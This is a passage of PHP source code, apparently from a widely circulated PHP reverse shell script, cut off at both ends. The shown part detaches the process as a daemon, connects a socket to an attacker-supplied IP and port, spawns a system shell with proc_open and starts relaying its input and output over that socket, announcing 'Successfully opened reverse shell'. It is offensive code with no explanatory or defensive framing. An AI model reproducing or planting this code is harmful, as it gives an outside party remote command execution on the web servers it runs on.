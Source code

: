 ```php
        if ($pid) {
                exit(0); 
        }


        if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
        }

        $daemon = 1;
} else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}


chdir("/");


umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
}


$descriptorspec = array(
   0 => array("pipe", "r"), 
   1 => array("pipe", "w"),  
   2 => array("pipe", "w")  
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
       
        if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
        }

        
        if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
        }


        $read_a = array($sock, $pipes[1], $pipes[2]);
```
